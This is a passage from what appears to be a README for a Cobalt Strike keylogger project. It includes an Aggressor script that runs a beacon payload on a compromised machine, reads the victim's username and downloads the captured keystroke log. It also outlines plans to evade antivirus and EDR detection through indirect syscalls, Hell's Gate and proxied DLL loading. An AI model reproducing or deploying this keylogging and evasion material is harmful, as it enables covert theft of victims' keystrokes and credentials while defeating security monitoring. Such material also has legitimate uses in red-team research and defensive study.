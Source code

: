 ```sleep
    beacon_inline_execute($bid, $data, "go", $args);

    println("Username is");
    $user = binfo($bid, "user");
    println($user);

    btask($1, "Downloading file");
    bdownload($1, "c:\\Users\\ $+ $user\\AppData\\Local\\Microsoft\\Internet Explorer\\brnlog.log");
}
```

## 7.  Future idea: working with `gafAsyncKeyState`

This idea remains very complex to put in place and is presented here with the aim of a possible future very advanced implementation.
[REF2](https://eversinc33.com/posts/kernel-mode-keylogging.html)

More references
[DirectSyscall buggy implem](https://github.com/Pengrey/Keylogger/blob/main/NtUserGetAsyncKeyState/Syscall/src/main.c)

## 8. Towards "Expert keylogger"
There are still <u>3 problems</u> with this solution:
1. The syscall instruction is called directly from our executable
2. The use of **GetModuleHandle** and **GetProcAddress** are still IoCs that can be detected very quickly
3. The use of **LoadLibrary** is also an IoC that could be detected by AV/EDR

Therefore, in the following part, we implement <u>3 solutions</u>:
1. Using [indirect syscalls](https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls)
2. Using [hell's gate](https://redops.at/en/blog/exploring-hells-gate)
3. Using [proxying DLL loads](https://0xdarkvortex.dev/proxying-dll-loads-for-hiding-etwti-stack-tracing/)
